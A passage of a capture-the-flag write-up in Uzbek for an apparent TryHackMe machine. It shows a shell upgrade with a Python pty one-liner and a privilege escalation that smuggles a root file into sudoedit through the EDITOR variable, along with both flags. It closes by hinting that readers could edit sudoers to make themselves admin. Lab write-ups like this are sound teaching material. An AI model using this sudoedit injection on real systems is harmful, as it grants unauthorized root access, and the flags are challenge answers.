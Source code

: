 

TTY hosil qilish:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



**user.txt**ni qo'lga kiritish:

```
web@cyprusbank:~$ cat /home/web/user.txt
cat user.txt
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```



## Privilage Escalation

Bizda bor imkoniyat:

```
web@cyprusbank:~$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Usul:

```
export EDITOR="vi -- /root/root.txt"
```

```
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```



Natija:

```
THM{4nd_uR_p4ck4g3s}
```



Men maqsadga o'tib qo'yaverdim. Istaganlar root.txtni emas sudoers faylini o'zgartirib o'zlarini admin deb e'lon qilib... Tushundizlarku...



# Nafas olar ekanman, men yana davom etaman...